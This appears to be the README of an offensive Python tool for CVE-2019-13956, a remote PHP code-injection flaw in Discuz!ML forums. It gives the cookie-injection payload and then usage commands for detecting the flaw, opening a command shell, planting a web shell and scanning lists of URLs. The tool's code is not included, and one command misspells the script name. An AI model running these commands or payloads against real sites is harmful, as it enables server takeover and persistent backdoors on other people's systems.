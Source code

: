 **Discuz ML RCE** <br/>
CVE ID : CVE-2019-13956
<br/>
**URL: https://www.esoln.net/blog/2019/06/14/discuzml-v-3-x-code-injection-vulnerability/**
<br/>
**CVE URL: https://nvd.nist.gov/vuln/detail/CVE-2019-13956**
<br/>
**CVE Mitre** : https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-13956


----------------
<br/>

Discuz!ML 3.2 through 3.4 allows remote attackers to execute arbitrary PHP code via a modified language cookie, as demonstrated by changing 4gH4_0df5_language=en to 4gH4_0df5_language=en'.phpinfo().'; (if the random prefix 4gH4_0df5_ were used). 


<br/>


----------------
**Installation** 

<br/>
python2.7<br/>
pip -r requirements.txt
<br/><br/>



----------------
**Help**

`python discuz_mlRce.py -h`<br/>



----------------
**Vulnerability Detection** 

`python discuz_mlRce.py -u "http://www.example.cn/forum.php" `<br/>

------
**GETTING Command Shell**

`python discuz_mlRce.py -u "http://www.example.cn/forum.php" --cmdshell`

----------------

**GETTING Shell URL**

`python ddiscuz_mlRce.py -u "http://www.example.cn/forum.php" --getshell`

----------------

**Scanning List of URL** 

`python discuz_mlRce.py -f urls.txt`

----------
